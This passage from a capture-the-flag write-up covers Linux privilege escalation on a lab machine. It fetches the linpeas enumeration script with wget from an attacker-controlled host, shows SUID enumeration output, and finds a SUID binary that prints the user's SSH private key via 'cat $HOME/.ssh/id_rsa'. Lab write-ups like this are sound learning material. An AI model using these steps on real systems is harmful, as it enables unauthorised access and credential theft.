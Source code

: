 



## Shell as Root

Download LINPEAS to help with priv esc.

```bash
alexia@hommie:~$ cd /tmp
alexia@hommie:/tmp$ wget http://192.168.56.3:1235/linpeas.sh
--2021-12-26 07:08:09--  http://192.168.56.3:1235/linpeas.sh
Connecting to 192.168.56.3:1235... connected.
HTTP request sent, awaiting response... 200 OK
Length: 330173 (322K) [text/x-sh]
Saving to: ‘linpeas.sh’
```
Running the scripts show a very interesting file `-rwsr-sr-x 1 root root        17K Sep 30  2020 /opt/showMetheKey`. Looks fishy.



```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
-rwsr-xr-x 1 root root        10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root        63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root        44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root        83K Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root        44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root        53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root        35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root        63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root        51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root       427K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus  50K Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root        17K Sep 30  2020 /opt/showMetheKey
----------------------------------------------------------------------------------------
  --- Trying to execute /opt/showMetheKey with strace in order to look for hijackable libraries...
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
wait4(12781, -----BEGIN OPENSSH PRIVATE KEY-----
-----END OPENSSH PRIVATE KEY-----
----------------------------------------------------------------------------------------

```


After running the file, it looks like it output the id_rsa of alexia ssh keys.
Looking at the file using `strings` Command ,As you can see it  really does read's the current user ssh key : `cat $HOME/.ssh/id_rsa`
